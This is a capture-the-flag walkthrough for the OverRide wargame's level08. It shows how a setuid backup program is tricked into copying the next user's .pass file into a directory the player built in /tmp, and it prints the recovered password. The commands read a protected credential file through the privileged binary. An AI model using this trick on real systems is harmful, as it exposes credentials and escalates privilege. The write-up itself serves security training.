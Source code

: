 # Walkthrough

## Context

### Binary info

```bash
level08@OverRide:~$ ls -l
total 16
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ file level08
level08: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8990336d0891364d2754de14a6cc793677b9122, not stripped
level08@OverRide:~$ ls -lR backups/
backups/:
total 0
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 filename
ERROR: Failed to open filename
```

An elf binary compiled for x86-64 arch with level09's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x00000000004008c4  log_wrapper
0x00000000004009f0  main
...
```

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### Disassembly

Please refer to the [source.c](./source.c) and [assembly.asm](Resources/assembly.asm) for details

The only thing we should look is source.c file really

## Exploit

As we saw in source.c file the program tries to open ./backups/.tmp for write, argv[1] for read and then, with the exact same path as argv1 tries to open file inside ./backups/

We know that the program has level09's privileges so it has now problem to open the .pass file of the level09's user. So what's stopping us to just mocking the file structure to satisfy the program and just read backed up .pass? Nothing!

### Getting .pass

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Well that was too easy i guess?
